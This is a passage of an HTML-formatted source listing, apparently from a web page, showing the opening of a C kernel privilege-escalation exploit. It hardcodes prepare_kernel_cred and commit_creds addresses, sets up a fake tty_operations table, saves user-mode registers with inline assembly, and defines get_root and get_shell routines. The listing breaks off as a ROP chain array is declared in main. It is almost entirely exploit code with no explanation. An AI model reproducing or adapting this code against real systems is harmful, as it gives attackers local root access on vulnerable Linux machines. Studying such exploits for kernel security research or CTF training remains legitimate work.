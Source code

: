 <div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#0086b3">#define</span>&nbsp;prepare_kernel_cred_addr&nbsp;<span style="color:#0099cc">0xffffffff810a1810</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#0086b3">#define</span>&nbsp;commit_creds_addr&nbsp;<span style="color:#0099cc">0xffffffff810a1420</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">void</span><span style="color:#a71d5d">*</span>&nbsp;fake_tty_operations[<span style="color:#0099cc">30</span>];</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">size_t&nbsp;user_cs,&nbsp;user_ss,&nbsp;user_rflags,&nbsp;user_sp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">void</span>&nbsp;save_status()</div><div style="padding:0 6px; white-space:pre; line-height:130%">{&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;__asm__(<span style="color:#63a35c">"mov&nbsp;user_cs,&nbsp;cs;"</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#63a35c">"mov&nbsp;user_ss,&nbsp;ss;"</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#63a35c">"mov&nbsp;user_sp,&nbsp;rsp;"</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#63a35c">"pushf;"</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#63a35c">"pop&nbsp;user_rflags;"</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;);</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;puts(<span style="color:#63a35c">"[*]status&nbsp;has&nbsp;been&nbsp;saved."</span>);</div><div style="padding:0 6px; white-space:pre; line-height:130%">}</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">void</span>&nbsp;get_shell()</div><div style="padding:0 6px; white-space:pre; line-height:130%">{&nbsp;&nbsp;&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;system(<span style="color:#63a35c">"/bin/sh"</span>);</div><div style="padding:0 6px; white-space:pre; line-height:130%">}</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">void</span>&nbsp;get_root()</div><div style="padding:0 6px; white-space:pre; line-height:130%">{&nbsp;&nbsp;&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#066de2">char</span><span style="color:#a71d5d">*</span>&nbsp;(<span style="color:#ff3399"></span><span style="color:#a71d5d">*</span>pkc)(<span style="color:#066de2">int</span>)&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;prepare_kernel_cred_addr;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#a71d5d">void</span>&nbsp;(<span style="color:#ff3399"></span><span style="color:#a71d5d">*</span>cc)(<span style="color:#066de2">char</span><span style="color:#a71d5d">*</span>)&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;commit_creds_addr;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;(<span style="color:#ff3399"></span><span style="color:#a71d5d">*</span>cc)((<span style="color:#ff3399"></span><span style="color:#a71d5d">*</span>pkc)(<span style="color:#0099cc">0</span>));</div><div style="padding:0 6px; white-space:pre; line-height:130%">}</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#066de2">int</span>&nbsp;main()</div><div style="padding:0 6px; white-space:pre; line-height:130%">{</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;save_status();</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#066de2">int</span>&nbsp;i&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;<span style="color:#0099cc">0</span>;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;size_t&nbsp;rop[<span style="color:#0099cc">32</span>]&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;{<span style="color:#0099cc">0</span>};</div>